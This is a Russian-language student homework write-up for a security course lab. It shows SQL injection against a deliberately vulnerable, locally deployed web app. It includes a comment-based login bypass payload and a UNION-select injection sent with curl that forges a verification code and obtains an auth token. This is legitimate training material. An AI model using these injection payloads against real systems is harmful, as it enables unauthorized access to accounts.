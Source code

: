 # Специалист по информационной безопасности: расширенный курс
## Модуль "Современная разработка ПО"
### Желобанов Егор SIB-48

# Домашнее задание к занятию «1.6. SQL и транзакции»

Подготовил файлы для развертывания системы:

* [docker-compose.yml](assets/docker-compose.yml)
* [docker-entrypoint-initdb.d/init.sql](assets/docker-entrypoint-initdb.d/init.sql)

И расположил их в каталоге `Work/SQL` в виртуальной машине Kali в соответствии с описанием:

![](assets/1_tree.jpg)

### Задание 1. «Логин и пароль»

Развернул контейнер, и в браузере виртуальной машины перешел по адресу `http://localhost:8888/`, и увидел окно авторизации системы:

![](assets/2_login.jpg)

Зная, что в системе есть логин `sasha`, вводим логин `sasha' --;` и любой пароль, я ввел `123123`:

![](assets/3_login.jpg)

И попал на следующее окно:

![](assets/4_login.jpg)

### Задание 2. «Код подтверждения»*

Следуя подсказке, составил запрос на второго пользователя Мария, который указан у нас в файле [init.sql](assets/docker-entrypoint-initdb.d/init.sql),
подставив логин `masha` и код подтверждения `1234`, получился вот такой запрос:

```bash
curl -v "http://localhost:8888/api/auth/verification" -H 'Content-Type:application/json' -d "{\"login\":\"masha' union select null, 'masha', '1234', null, null -- \", \"code\":\"1234\"}"
```

В результате выполнения этого запроса, был получен положительный ответ от сервера:

![](assets/5_token.jpg)

Полученный токен в результате выполнения этого задания:

`{"token":"a184bbdd609c59dc91e0bd59c49bca04dbad035aba8ba85e06a6097c3fe648d5e2194f7abf84b3b50871325f0c3040deb6faa7d3b4c67c60b0ad48caa8331c0e11d771e4f1d330266ecebc737dbd42742615c2da6bae2984ef3b9d5fcef8eec8f431a1c3e6032639e3257a4ef707eb2a5596d7d231215ab3198fa1d2bc923308"}`
